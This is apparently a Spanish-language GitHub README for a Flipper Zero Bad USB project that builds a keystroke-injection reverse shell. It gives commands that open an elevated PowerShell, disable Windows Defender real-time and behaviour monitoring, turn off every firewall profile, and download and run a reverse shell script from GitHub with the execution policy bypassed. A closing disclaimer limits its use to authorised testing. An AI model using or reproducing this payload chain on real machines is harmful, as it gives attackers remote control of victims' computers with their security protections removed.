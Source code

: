 # REVERSE-ZERO

![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/Designer.jpeg)



# Descripción

Reverse-Zero es un proyecto de investigación y desarrollo en el ámbito del hacking, centrado en la exploración de las capacidades de programación del Flipper Zero. En particular, se enfoca en la aplicación Bad USB, que permite ejecutar cargas útiles automatizadas a través de un dispositivo USB.

Este proyecto representa mi primera incursión en el mundo del hacking, donde he investigado a fondo el uso de PowerShell y otros lenguajes de scripting para aprovechar las funcionalidades del Flipper Zero.

# Características

Automatización de scripts para Bad USB en Flipper Zero.

Desarrollo de payloads personalizados con PowerShell.

Análisis de seguridad y pruebas de penetración controladas.

# Requisitos

Para utilizar este proyecto, necesitarás:

Un dispositivo Flipper Zero.

Un editor de texto (VS Code, Notepad++, etc.).

Conocimientos básicos de PowerShell.


# Instalación y uso.

1.  Clonar el repositorio
      ```sh g
       git clone https://github.com/90l3m0np13/Reverse-Zero/blob/main/REVERSE_SHELL.txt
      ```
2.  Abre el archivo en un editor de texto y cambia los apartados de IP y Puerto por los de tu máquina atacante.
3.  Carga los scrips en tu Flipper Zero


     - Copia los archivos al directorio correspondiente en la memoria del Flipper.
     - Ejecuta el payload desde la aplicación Bad USB.

# Crea tu ReverseShell desde 0



1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.




1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb.png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.



# Conclusión 

Este proyecto está diseñado con fines educativos y de investigación en seguridad informática. Se recomienda su uso únicamente en entornos controlados y con el consentimiento explícito de los propietarios de los sistemas involucrados. El uso indebido de estas herramientas puede tener implicaciones éticas y legales. El autor no se responsabiliza de cualquier daño o consecuencia derivada de su uso inapropiado.





















